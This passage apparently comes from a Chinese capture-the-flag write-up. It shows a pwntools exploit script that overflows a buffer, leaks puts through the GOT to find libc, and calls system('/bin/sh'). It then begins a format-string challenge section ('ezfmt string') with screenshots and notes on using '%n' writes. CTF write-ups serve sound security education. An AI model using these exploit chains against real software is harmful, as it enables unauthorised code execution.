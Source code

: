 ```bash

rdi = 0x401423
puts_got = 0x404018
puts_plt = 0x4010B0
ret = 0x040101a
pl='a'*0x38+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(0x40125D)
sl(pl)
puts_addr=u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-libc.symbols['puts']
leak('libc_base ',libc_base)

system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))

pl=b'a'*0x38 + p64(ret) + p64(rdi) +p64(binsh) + p64(system)
sl(pl)

itr()
```

## ezfmt string

### 思路

[![](assets/1708654729-6e9c9f67f6055d0ed6cc9fd9d4e19c62.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012239-a586336c-d014-1.png)

[![](assets/1708654729-7d5e8cd3ac9952c46295f09128a061f9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012246-aa1fbcea-d014-1.png)  
过滤字符'p'和's',使用这里就是让用'n'来直接修改  
还给了个后门  
[![](assets/1708654729-f1581cda4a5816779dfe93a5d8cdae2c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221012255-af27429e-d014-1.png)
